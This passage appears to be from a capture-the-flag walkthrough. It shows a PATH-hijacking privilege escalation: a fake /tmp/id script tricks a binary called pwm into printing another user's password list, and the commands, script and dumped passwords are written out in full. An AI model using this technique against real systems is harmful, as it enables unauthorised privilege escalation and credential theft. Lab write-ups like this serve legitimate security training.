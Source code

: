 ```
www-data@ip-10-10-181-47:/home$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found

```

Interesting. So this binary seems to execute the “id” command, and then extracts the username out of it, and then puts that username into “/home/username/.passwords” and tries to do something with it.

If the “id” command is not specified with it’s full path (/bin/id), it is found and executed via the PATH variable in our environment :

```
www-data@ip-10-10-181-47:/home$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Let’s try to trick the program into executing a different “ID” command, one that would result in the “think” username to be extracted from the output.
_Path Hijack_

We can add /tmp to our path :

```
www-data@ip-10-10-181-47:/$ export PATH=tmp:$PATH
www-data@ip-10-10-181-47:/$ echo $PATH
tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

And now create /tmp/id with the following content :

```
# Create the `id` command under /tmp/id
cat > /tmp/id << EOF
#!/bin/bash
echo 'uid=1000(think) gid=1000(think)group=1000(think)'
EOF

# Give executable permission to /tmp/id
chmod +x /tmp/id
```

Now we run it again :

```
www-data@ip-10-10-116-56:/$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
jose0981
jose0924
jose0923
jose0921
thepassword
jose(1993)
jose'sbabygurl
```
